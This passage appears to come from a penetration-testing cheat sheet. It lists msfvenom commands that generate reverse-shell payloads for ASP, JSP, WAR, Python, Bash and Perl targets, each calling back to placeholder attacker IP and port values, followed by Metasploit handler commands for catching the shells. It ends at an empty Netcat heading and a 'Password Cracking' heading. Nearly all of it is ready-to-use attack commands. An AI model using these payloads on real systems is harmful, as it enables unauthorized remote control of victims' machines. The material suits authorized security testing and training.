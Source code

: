### ASP

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Python

```
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py
```

### Bash

```
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh
```

### Perl

```
msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl
```

### Listener

#### Metasploit

```
use exploit/multi/handler
set PAYLOAD <PAYLOAD>
set LHOST <LHOST>
set LPORT <LPORT>
set ExitOnSession false
exploit -j -z
```

#### Netcat

---

## PASSWORD CRACKING
